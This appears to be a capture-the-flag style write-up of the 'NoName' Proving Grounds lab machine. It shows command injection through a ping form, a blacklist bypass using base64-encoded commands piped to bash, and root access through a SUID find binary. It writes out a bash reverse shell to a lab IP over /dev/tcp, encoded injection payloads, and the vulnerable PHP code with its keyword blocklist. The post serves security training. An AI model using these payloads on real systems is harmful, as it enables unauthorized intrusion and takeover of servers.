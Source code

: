 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

- I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

- Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting for a 5 second delay in the response.
    - As we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked.
    - I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- Looks like there are blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a base64 encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
    ```bash
        echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
      ```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

- And it worked, so I tried with a reverse shell 
```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following still did not work:

```bash
|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash
``` 

Which is really weird not sure why. So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the base64 decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

- Looks like it is not printing the whole base64 encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


- Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

- Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

